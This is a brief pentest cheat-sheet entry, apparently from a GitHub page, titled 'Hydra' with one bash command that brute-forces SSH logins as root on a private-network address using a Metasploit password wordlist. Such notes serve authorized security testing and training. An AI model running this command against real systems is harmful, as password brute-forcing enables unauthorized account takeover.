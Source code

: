 # Hydra

## SSH Bruteforce

### known username, password list

```bash
hydra -v -V -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.168.88.129 ssh -t 8
```
